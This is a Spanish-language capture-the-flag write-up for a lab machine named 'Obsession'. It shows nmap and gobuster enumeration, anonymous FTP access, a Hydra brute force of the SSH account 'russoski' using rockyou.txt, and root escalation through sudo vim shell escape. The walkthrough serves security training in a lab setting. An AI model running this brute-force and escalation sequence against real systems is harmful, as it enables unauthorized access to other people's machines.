





# Obsession

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

.png>)

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP**, el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><figcaption></figcaption></figure>

Observamos que el puerto **21** tiene dos archivos que podrían contener información relevante, y que la conexión es permitida con el usuario **anonymous** y sin contraseña, por lo que nos conectaremos a través de **FTP**. Esto lo sabemos ya que la versión es vulnerable a esas credenciales.

.png>)

Tras entrar, debemos listar y descargar los archivos que se mostraban anteriormente a través de los comandos:

```bash
ls
get chat-gonza.txt
get pendientes.txt
```

.png>)

Ahora mostramos el contenido de esos archivos con:

```bash
cat chat-gonza.txt
cat pendientes.txt
```

.png>)

Con esto, descubrimos información de algunos de los usuarios e información de los permisos, lo que nos proporciona datos relevantes.

Seguimos indagando más sobre los puertos y ahora investigamos el servicio **HTTP**. Se ingresó la dirección IP en el navegador, lo que llevó a que la página web nos muestre un blog de entrenamiento personal.

.png>)

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><figcaption></figcaption></figure>

Descubrimos dos directorios que son `/backup/` y `/important/`, por lo que los revisamos y su contenido a continuación.

.png>)

.png>)

Con esto, descubrimos que el usuario es **russoski**. Continuamos con el siguiente directorio.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Parece ser que esto último no tiene nada relevante, por lo que nos centramos en lo que hemos descubierto anteriormente, que es el usuario.

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**.

<figure><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **russoski**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh russoski@172.17.0.2
```



### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.



Observamos que podemos escalar privilegios con **vim** usando el comando:

```bash
sudo vim -c ':!/bin/sh'
```

Tras eso, ponemos:

```bash
id
```

y ya somos **root**.

<figure><figcaption></figcaption></figure>
